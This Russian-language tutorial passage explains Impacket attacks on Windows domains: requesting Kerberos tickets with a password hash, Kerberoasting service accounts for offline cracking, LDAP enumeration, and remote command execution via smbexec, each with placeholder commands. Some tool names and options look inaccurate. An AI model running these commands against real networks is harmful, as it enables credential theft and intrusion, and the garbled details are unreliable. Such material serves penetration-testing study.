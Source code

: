 ```bash
python3 impacket/examples/GetTGT.py <domain>/<username>:<password-hash> -dc-ip <domain-controller-ip>
```

`<domain>/<username>` — имя пользователя и домен.
`<password-hash>` — хеш пароля.
`-dc-ip <domain-controller-ip>` — IP адрес контроллера домена, с которым нужно взаимодействовать.
### **Kerberoasting — Получение сервисных тикетов**

Одним из мощных инструментов для атак на **Kerberos** является **Kerberoasting**. Это атака, при которой ты запрашиваешь сервисные тикеты для сервисных аккаунтов, а затем пытаешься их расшифровать офлайн, если сервис использует слабые пароли. С помощью Impacket ты можешь выполнить **Kerberoasting** с помощью утилиты **`GetUserSPNs.py`**.

```bash
python3 impacket/examples/GetUserSPNs.py <domain>/<username>:<password-hash> -dc-ip <domain-controller-ip>
```

После выполнения ты получишь **Service Principal Names (SPNs)**, которые можно использовать для дальнейших атак, например, для добычи паролей с использованием атак на слабые хеши.

### **LDAP и DCOM — Манипуляции с каталогами и удаленными сервисами**

Impacket также позволяет работать с **LDAP** и **DCOM**, что полезно для получения информации о пользователях и группах в домене, а также для удаленного выполнения команд. Например, с помощью **`ldapsearch.py`** можно запросить LDAP-сервер, чтобы извлечь информацию о пользователях:

```bash
python3 impacket/examples/ldapsearch.py -u <username> -p <password> -h <ldap-server-ip>
```

Также есть утилита для выполнения удаленных команд с помощью **DCOM**:

```bash
python3 impacket/examples/smbexec.py <target-ip> -username <username> -password <password>
```
